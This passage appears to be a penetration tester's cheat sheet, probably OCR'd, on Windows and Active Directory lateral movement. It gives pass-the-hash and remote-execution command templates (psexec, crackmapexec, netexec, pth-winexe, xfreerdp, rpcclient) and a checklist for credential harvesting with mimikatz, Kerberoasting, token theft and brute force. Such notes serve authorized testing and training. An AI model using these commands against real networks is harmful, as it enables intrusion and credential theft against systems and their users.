 ```
psexec -hases <hash> <domain>/<user>@<ip>
pth-winexe -U <user>%<hash> //<ip> cmd
crackmapexec smb <ip-range> -u <user> -H <nt-hash> (Hash - AD accounts)
crackmapexec smb <ip-range> -u <user> -p <password> (Password - AD accounts)
crackmapexec smb <ip-range> -u <user> -H <nt-hash> --local-auth (for local accounts)
xfreerdp /u:user /p:'password' /v:X.X.X.X /d:domain /sec:rdp +clipboard (no /d if local account)
xfreerdp /u:user /p:'password' /v:X.X.X.X /d:domain /sec:tls +clipboard
xfreerdp +clipboard /u:user /p:'password' /v:X.X.X.X /d:domain /sec:<whatever> /drive:<absolute path to your local folder>,/ (if you want to have files and clipboard)
netexec smb <ip> -u username -p password -X "command to execute"
rpcclient -U <user> <ip>
```
- Unattended.xml
- Plain text credentials in files
- Powershell history
- Runas different user when you are admin (check cmdkey)
- Powershell search passwords
- Local Services
- Services accessible only from internal machines
- Crackmapexec every service(smb,winrm,rdp,etc) with creds
- `for /R "C:\Users\Administrator" %i in (*) do @if not exist "%i\" echo %i`
- Do URL File attack to see if someone checks shares
- try pth-winexe and other varients
- Try to access blocked sevrice from compromised machine
- Perform Kerberoasting and AS-REP roasting unauthenticated and authenticated
- Check if computer machine accounts have any access to any other machines using their hash
- Try all accounts for services on the other boxes
- Run `crackmapexec smb <ip> -u <user> -p <pass> -M spider_plus` for every user found
- Once admin look for passwords using mimikatz and `find /si 'password' *.txt *.ps1 *.xml *.docx `
- Check log files for password of other users
- Check for tokens using incognito when admin for other users

## General
- Enumerate every AD box
- Run LDAP quesries against DC to enumerate
- Check for guest sessions on RDP and SMB
- Add dc and hosts in hosts file if error in output due to nameservers
- Try crackmapexec with smb (psexec) and winrm to check credentials
- Enumerate shares if no shell access
- We can change user's password using rpcclient if we have permission
- We can check for description of users using rpcclient which might have password
- Try Username as Passwords for brute force
- impacket-lookupsid with creds
- Check creds with SMB, SSH, FTP, RPC, MYSQL
- NTLM hash can be used in overpass the hash and requesting any domain servcie like net use \\<ip>, this will create TGS and TGT which can then be used with PsExec like psexec \\<ip> cmd.exe to get shell
- Try both IP and FQDN when using psexec if errors

# Services
